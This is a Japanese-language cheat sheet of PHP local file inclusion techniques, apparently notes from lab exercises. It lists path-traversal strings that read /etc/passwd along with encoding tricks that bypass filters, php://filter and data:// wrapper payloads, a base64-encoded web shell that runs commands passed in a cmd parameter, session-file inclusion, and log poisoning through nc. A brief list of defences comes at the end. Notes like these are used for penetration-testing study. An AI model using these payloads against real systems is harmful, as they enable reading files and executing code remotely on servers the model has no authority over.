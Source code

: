 # ファイルインクルージョン

## LFI

### パストラバーサル

```php
# Nullバイト追加で文字列の結合を無効化する
# PHP 5.3.4 以降では機能しない
include("languages/../../../../../etc/passwd%00").".php");
↓
include("languages/../../../../../etc/passwd");
```

```shell
# カレントディレクトリトリック
http://webapp.thm/index.php?lang=/etc/passwd/.
```

```shell
# ../ を削除するフィルターへの対抗例
....//....//....//....//etc/passwd
↓
../../../../etc/passwd

# ../ を URL エンコード %2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

# 二重エンコード（アプリケーションが2回エンコードする場合）
%252e%252e%252f
```

### ラッパー

### PHP ラッパー

```php
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/string.rot13/resource=/etc/passwd
php://filter/string.toupper/resource=/etc/passwd
php://filter/string.tolower/resource=/etc/passwd
php://filter/string.strip_tags/resource=/etc/passwd
```

#### Data ラッパー

```php
data:text/plain,<?php%20phpinfo();%20?>
```

#### ラッパーによる RCE

cmd パラメータで指定したコマンドを実行するペイロード

```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```

Base64 エンコードされたペイロードをデコードするフィルター

```php
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

脆弱性のある URL に、whoami を実行させるリクエストを送信

```shell
http://ip/foo.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami
```

### PHP セッションファイル

下記の脆弱なサーバーコードがあるとする。

```php
if(isset($_GET['page'])){
    $_SESSION['page'] = $_GET['page'];
    echo "You're currently in" . $_GET["page"];
    include($_GET['page']);
}
```

```text
http://ip/foo.php?page=<?php echo phpinfo(); ?>
```

リクエストを送ると、サーバーコードの 2 行目によって、攻撃者が送った PHP コードがセッションファイルに保存される。  
次に、

```text
http://ip/foo.php?page=/var/lib/php/sessions/sess_[sessionID]
```

リクエストを送ると、サーバーコードの 4 行目によって、phpinfo()が実行される。

### ログポイズニング

下記のリクエストを送ると、PHP コード（2 行目の部分）がアクセスログに保存される。  
その後、/var/log/apache2/access.log を include することで PHP コードを実行させる。

```shell
$ nc 10.10.5.212 80
<?php echo phpinfo(); ?>
HTTP/1.1 400 Bad Request
Date: Thu, 23 Nov 2023 05:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 335
Connection: close
Content-Type: text/html; charset=iso-8859-1
HTTP/1.1 400 Bad Request
Date: Tue, 07 Jan 2025 01:19:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 333
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at ip-10-10-5-212.eu-west-1.compute.internal Port 80</address>
</body></html>
```

## RFI

## セキュリティ

- ユーザー入力の検証
- フレームワークを含むシステムのアップデート
- PHP エラーを OFF にする
- Web アプリケーションファイアウォール（WAF）
- 可能であれば allow_url_fopen, allow_url_include 等のオプション OFF
- ファイル名と場所のホワイトリストとブラックリストの実装
